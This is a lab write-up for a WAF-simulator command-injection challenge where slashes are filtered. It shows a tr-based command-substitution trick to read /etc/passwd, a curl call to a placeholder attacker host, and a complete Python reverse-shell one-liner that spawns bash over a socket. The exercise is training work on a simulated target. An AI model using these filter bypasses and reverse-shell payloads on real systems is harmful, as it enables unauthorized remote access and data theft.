

# Lab Report: WAF Simulator Lab - Command injection (no slash allowed)
---

## I. Overview and Goal, Tasks

Try to build a reverse shell wo execute remote command with local app simulates a WAF and multiple vulnerable endpoints
---

## II. Implementation Steps & Documentation

This section walks through the process step-by-step. For each step, provide a clear explanation of what was done and include a corresponding screenshot to visually confirm the action or result.

### Overview and evaluation of the approach to the exercise

**Step 1: First, we will try to craft a command without direct "/". to cat /etc/passwd.**

*Action:* According to the hint, this lab will ignore slash. So we can use **$(echo . | tr '!-0' '"-1')**. The expression placed within $(...) will be executed first, and its result will replace the expression's position (called Command Substitution). Then, the returned result will be used for the overall command.

```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd 
```

*Next, the second requirement is to create a reverse shell with the server.*

*For this requirement, we have two ways to implement it. The first way is to create a file containing the commands to be executed, then host it on a server and use curl to download and execute the commands.*
```bash
curl http:$(echo . | tr '!-0' '"-1')$(echo . | tr '!-0' '"-1')<IP address here>:<Port here>$(echo . | tr '!-0' '"-1')index.php?cmd=whoami
```
*The result shows that, although the web does not display the output, the download behavior has been identified. (The reason is that this is a simulated endpoint for practice)*

*Evidence:*

> *Figure 1: File was downloaded successfully.*

*The second way is to create a TCP/Socket connection to execute commands.*

```bash
 python3.13 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP address here>",<Port here>>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("$(echo . | tr '!-0' '"-1')bin$(echo . | tr '!-0' '"-1')bash")'
```
*We can host a simple server to execute commands remotely. The received result screen has already allowed remote command execution, so there is no need to host it anymore because this is a simple simulated server.*

*Evidence:*

> *Figure 2: The command was executed successfully.*
---

## III. References
- <a href="http://36.50.135.185:5000/ch3-cmd">Challenge 3 - Command injection (no slash allowed)